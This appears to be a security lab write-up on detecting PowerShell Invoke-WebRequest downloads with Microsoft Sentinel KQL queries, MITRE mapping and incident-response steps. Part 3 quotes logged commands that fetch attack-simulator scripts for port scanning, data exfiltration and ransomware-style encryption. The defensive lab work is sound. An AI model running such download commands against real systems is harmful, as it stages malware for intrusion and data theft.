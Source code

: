 
# 🔍 PowerShell Suspicious Web Request – Microsoft Sentinel Lab

## 🧪 Scenario Overview

In this lab, we simulate a common post-exploitation tactic where an attacker uses PowerShell to download malicious payloads or tools from the internet using legitimate commands such as `Invoke-WebRequest`. This technique is often used to bypass traditional security mechanisms.

By leveraging Microsoft Defender for Endpoint and Microsoft Sentinel, we detect and investigate this suspicious activity using KQL (Kusto Query Language).

---

## 🎯 Lab Goals

- Detect the use of PowerShell to download remote content.
- Create a scheduled query rule in Microsoft Sentinel.
- Investigate and respond to the incident following the NIST Incident Response Lifecycle.

---

## 📍 Environment

- **VM Name**: `rich-mde-test`
- **Log Source**: `DeviceProcessEvents` (via Defender for Endpoint)
- **SIEM Tool**: Microsoft Sentinel
- **Primary Command**: `Invoke-WebRequest` or `iwr`

---

## 📌 Part 1: Alert Rule Creation

### Objective

Detect PowerShell usage of `Invoke-WebRequest` to download scripts or files.

### Initial Query

```kql
DeviceProcessEvents
| where DeviceName == "rich-mde-test"
| where FileName == "powershell.exe"
```

### Refined Detection Query

```kql
DeviceProcessEvents
| where Timestamp > ago(10d)
| where DeviceName == "rich-mde-test"
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "Invoke-WebRequest" or ProcessCommandLine contains "iwr"
| project Timestamp, DeviceName, FileName, ProcessCommandLine, InitiatingProcessFileName
| order by Timestamp desc
```

> 💡 *Note: VM is not always on, so we search across 10 days. If live 24/7, a 24-hour window would be more efficient.*

---

## ⚙️ Part 2: MITRE ATT&CK Mapping

| Tactic              | Technique                     | Description                                                                 |
|---------------------|-------------------------------|-----------------------------------------------------------------------------|
| TA0043 - Recon      | —                             | Gathering info; intent unclear                                              |
| TA0002 - Execution  | T1059.001 - PowerShell        | Execution of PowerShell scripts using Invoke-WebRequest                     |
| TA0009 - Collection | T1074.001 - Local Data Staging| Scripts stage data locally before exfiltration                             |
| TA0010 - Exfil      | T1041 - Exfil Over C2 Channel | Data exfiltration via HTTPS or similar                                      |
| TA0011 - C2         | T1071.001 - Web Protocols     | Uses HTTPS for downloads and C2 communication                               |

---

## 🚨 Alert Rule Deployment

After creating and testing the query, an alert rule was deployed in Sentinel. This rule was assigned, activated, and monitored for real-time threat detection.

---

## 🔍 Part 3: Incident Response (NIST Lifecycle)

### ➤ Detection & Analysis

PowerShell executed the following commands to download suspicious scripts:

```powershell
Invoke-WebRequest -Uri https://raw.githubusercontent.com/.../portscan.ps1 -OutFile C:\ProgramData\portscan.ps1
Invoke-WebRequest -Uri https://raw.githubusercontent.com/.../eicar.ps1 -OutFile C:\ProgramData\eicar.ps1
Invoke-WebRequest -Uri https://raw.githubusercontent.com/.../exfiltratedata.ps1 -OutFile C:\ProgramData\exfiltratedata.ps1
Invoke-WebRequest -Uri https://raw.githubusercontent.com/.../pwncrypt.ps1 -OutFile C:\ProgramData\pwncrypt.ps1
```

> 🧑‍💻 *User claimed they installed "free software"; in reality, the attack simulator executed the downloads.*

### ➤ Script Summaries

- **portscan.ps1** – Scans IPs 10.0.0.4–10.0.0.10 and logs to `entropygorilla.log`.
- **eicar.ps1** – Triggers AV detection via EICAR string.
- **exfiltratedata.ps1** – Exfiltrates dummy employee data to Azure.
- **pwncrypt.ps1** – Encrypts Desktop CSVs, deletes originals, drops ransom note.

### ➤ Containment, Eradication, Recovery

- Isolated VM via MDE.
- Performed anti-malware scan (clean).
- Removed isolation after confirmation.

---

## ✅ Post-Incident Activities

- Enforced user cybersecurity training (Ninjio).
- Mandated weekly training confirmation to supervisors.
- Restricted PowerShell access for non-essential users.

---

## 🏁 Final Actions

- Incident marked as: **True Positive - Suspicious Activity**
- Status: **Closed**
